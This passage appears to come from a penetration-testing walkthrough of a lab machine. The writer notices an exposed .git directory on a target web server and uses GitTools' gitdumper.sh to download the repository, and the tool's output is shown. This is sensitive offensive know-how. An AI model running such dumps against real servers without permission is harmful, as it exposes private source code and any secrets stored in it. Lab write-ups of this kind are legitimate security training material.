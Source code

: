 A user named frank was identified.

![](/assets/images/devguru/screenshot-4.png)

Going back to the web application on port 80, an exposed .git repository was detected, to fetch that directory from the target web server we will use GitTools.

We download it from the following repository:

```bash
root@kali:~$ git clone https://github.com/internetwache/GitTools.git
```

We run the following command to dump it to our machine.

```bash
root@kali:~$ GitTools/Dumper/gitdumper.sh http://192.168.179.166/.git/ .   
###########                                                                       
# GitDumper is part of https://github.com/internetwache/GitTools         
#                                                                                 
# Developed and maintained by @gehaxelt from @internetwache                       
#                                                                                 
# Use at your own risk. Usage might be illegal in certain circumstances.          
# Only for educational purposes!                                                  
###########                                                                       


[*] Destination folder does not exist
[+] Creating ./.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
...
```
